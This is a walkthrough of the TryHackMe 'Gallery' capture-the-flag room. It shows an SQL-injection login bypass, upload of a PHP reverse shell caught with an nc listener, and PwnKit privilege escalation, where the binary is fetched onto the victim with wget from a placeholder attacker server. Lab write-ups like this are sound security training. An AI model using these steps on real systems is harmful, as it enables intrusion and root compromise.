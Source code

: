 # Tryhackme Gallery Room Writeup
  - Penetration Testing methodology
    - Scanning
      - Nmap Scan
    - Enumeration
      - Enumerating HTTP Service
      - Searching Exploit
      - Testing Login page
    - Exploitation
      - Reading exploit code
      - Trying exploit code
      - Finding another way to exploit cms
      - Uploading shell
    - Privilege Escalation
      - Enumerating kernel make
      - Searching Exploit
      - Compiling exploit
      - Transferring Binary
      - Getting Root Shell 
      - Getting Answers
  
  - Walkthrough
    - There are two flags to find in this room 1. User flag 2. Root flag
    - Scanning IP with Nmap we get following output
       ![1  Initialscanning](https://user-images.githubusercontent.com/75413146/153704382-d698aafd-0acd-4667-8d80-7eacdf409ee2.png)
      
      We can see that on port 80 and on port 8080 http service is running, By visiting to the IP:Port we can see that on port 8080 we see
        ![2  Visiting Simple Gallery Page](https://user-images.githubusercontent.com/75413146/153704486-a9180690-64ce-4a5c-ba51-31b2f9b857f9.png)
       I tried a payload of SQLi in Username : " ' or 1=1 -- " & Password : " a " but didn't worked.
        ![6  Running SQLi](https://user-images.githubusercontent.com/75413146/153704999-70b40ef8-a327-4027-8471-f8bbd85f7479.png)

      
      So the CMS is Simple Image Gallery after searching it for on searchsploit we get following output
        ![3  Searching Exploits](https://user-images.githubusercontent.com/75413146/153704567-3cfa0a88-6b6e-4b3b-a568-f7f4affb15f9.png)
      
      Copying the exploit to current directory.
        ![4  Copying exploit](https://user-images.githubusercontent.com/75413146/153704594-d69b866e-b8e5-47c1-8cd1-4f7417342785.png)
      
      # It's a good practice to read exploit. Even if you don't understand try to read some parts of it what and how it's doing. [ My Takeaway ]
      Before finding something i ran the code to check how the exploit works.
        ![5 4 Running Exploit](https://user-images.githubusercontent.com/75413146/153704677-b735eee4-ff08-427a-bb6b-96efaa237306.png)
      
      So the code was allowing us to execute commands via a parameter called cmd and it was uploaded in gallery/uploads directory. So i visited on the provided url and found that the code was executing. The output of whoami command.
        ![5 5 Running Exploit](https://user-images.githubusercontent.com/75413146/153704746-b20aaa41-24eb-4a83-ac47-446c4d5023e6.png)

      AFter a lot of tries to gain reverse shell through cmd parameter i was frustrated then in a try i read the code [ My Takeaway :D ] content as follows:
        ![5 1 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704804-a53cb4c2-44d6-4ab8-b106-8cc1185751f9.png)
        ![5 2 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704810-417bd80d-50a7-4d49-a4c9-9e0bfb3872ff.png)
        ![5 3 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704800-f77a91f3-2e6f-4e4c-9c50-275d8a458ff8.png)
      
      While reading i encountered a line which seemed to me a SQLi payload see below :
        ![6  Reading Exploit](https://user-images.githubusercontent.com/75413146/153704955-8d4adc85-5e28-4e9e-9451-e9dded0f8310.png)
      
      So i got a hint that the payload which i was trying to use was not working for this room so i tried the payload which was used in exploit.
        ![6  Running simple cms exploit sqli payload](https://user-images.githubusercontent.com/75413146/153705095-858cd49c-0e39-474f-9db9-42d53c81adf5.png)
       And boooom !! i was not expecting this but it worked...
        ![7  We r in](https://user-images.githubusercontent.com/75413146/153705113-9e1847a3-3a5e-474f-a3cc-db6d6d9106fc.png)
       
       OKK !! We are in so now while walking an application i found a page " Albums " So after visiting i saw upload functionality.
        ![7 1 moving](https://user-images.githubusercontent.com/75413146/153705192-774e205e-dbc9-4382-bd2f-bec004592da2.png)

       I thought let's give it a try to upload a PHP reverse shell by Pentest Monkey ( can be found in /usr/share/webshells/php/ or can be found on google coz it's famous revershell script so will be easy to find ). 
       
       So edited my reverse shell with my IP and my favorite port
        ![6  3 Editing shell IP](https://user-images.githubusercontent.com/75413146/153705281-c31231ce-9b1a-4304-9b27-c9a443c1f54a.png)
       BTW out-of-topic : I am using 1337 coz not of i am leet but i want to be leet XD #HECKUR MINDSET
       
       Uploading the PHP Reverse Shell and listening on localhost via nc -lvnp 1337 [ for me it's 1337 you use what you typed the port to in script ]
        ![7 2 Upload shellcode](https://user-images.githubusercontent.com/75413146/153705349-6173c59a-3551-42d8-8a3e-edcd6d32d468.png)
        
       Shell Upload successfully !!!!
         ![7 3 Shell uploaded](https://user-images.githubusercontent.com/75413146/153705426-d93f1a53-2e47-4554-baa8-e7b0a1bba390.png)
         
       By clicking on the script you uploaded you can activate the shell. But don't forget to listen before you activated the shell.
        ![9 got shell](https://user-images.githubusercontent.com/75413146/153705457-65d471d2-b5ee-472c-b64d-a9f493d78b4e.png)
        
      Whoop Whoop we got shell... OKKK first things first let's stabilise our shell. I learned stabilising from What the Shell room on Tryhackme.
      - export TERM=xterm
      - which python3 [ Will allow to know what python is installed ]
      - python3 -c 'import pty;pty.spawn("/bin/bash")'
      - press CTRL+Z to bcakground the shell and also run the command on attacker machine
      - stty raw -echo ; fg
      - reset
      - [ This commands will give us a fully functional shell ]
        ![9 1 Stabilising shell](https://user-images.githubusercontent.com/75413146/153705566-476dfb91-8360-49e3-8670-4435c3b80777.png)
      By resetting you get your shell reset like below a clean shell :D
  - Privilege Escalation TIIIIIIIIIIIME !!!!
      - For privesc you can run linpeas or any other script or may enumerate manually for escalation.
      - But in this writeup we will run PwnKit to learn some new about POLKIT pkexec module exploit. The exploit code can be found here -> https://github.com/ly4k/PwnKit/blob/main/PwnKit.c 
        ![10  enumerating privesc](https://user-images.githubusercontent.com/75413146/153705878-b9531579-e336-44f6-bc6f-a5f328428b81.png)
      - Let's do this...
      Compiling the code by 
      - gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
         ![11  1 pkexec binary](https://user-images.githubusercontent.com/75413146/153705895-3944080b-9a45-4fda-ab70-b09be5dc796c.png)
        We got the binary compiled and now let's mode this to victim host.
        - 1st host a server on attacker machine we can do this by [Note : Host the server where your binary file is ! ]
          - Command : python3 -m http.server 80
        - 2nd  Go to victim terminal and download the binary by following 
          - Command : wget http://[attackerIP:PORT]/file_name
            ![12  Tranferring binary](https://user-images.githubusercontent.com/75413146/153705932-8b8fc8a4-8b4c-4c3b-bd0a-c459c21fbfc6.png)
            
            Also note the workding directory i am in /dev/shm. You must have a writable permission on a directory. Like /tmp or /dev/shm or /var/tmp
            Now we got the binary so let's make it executable by using command : 
              - chmod +x PwnKit
        Let's now run the binary 
          ![13  Got Shell](https://user-images.githubusercontent.com/75413146/153706089-1213c008-3b53-42d1-b140-c7ccdd2a82d2.png)
        
        Controlling Emotions of getting root shell ;-;
          So let's get the flags and end it ASAP.
          - /home/mike has user.txt
          - /root/ has root.txt
            ![13  Flags txt](https://user-images.githubusercontent.com/75413146/153706142-3bab8ddf-4894-42aa-8841-063eefd5e45d.png)
        Also we need hash of an admin user to complete the room
          - Use command netstat -altuopn for checking the services runnning on localhost
          - We can see 3306 is running which is mysql port.
          - Using mysql -u root -p [use password as root]
          - accessing the database.
          - and we got the admin hash submitting it and ok the room has been completed.
            ![14  databases](https://user-images.githubusercontent.com/75413146/153706239-3c34e211-ac40-44b8-bea1-97ed28ac16e1.png)
            ![14 2 databases](https://user-images.githubusercontent.com/75413146/153706246-a4230f42-9b67-4820-895e-dd7e3d34aec5.png)
            ![14 3 database hash](https://user-images.githubusercontent.com/75413146/153706249-57ca5fea-01e4-4fc7-88a2-1ef0184433f2.png)





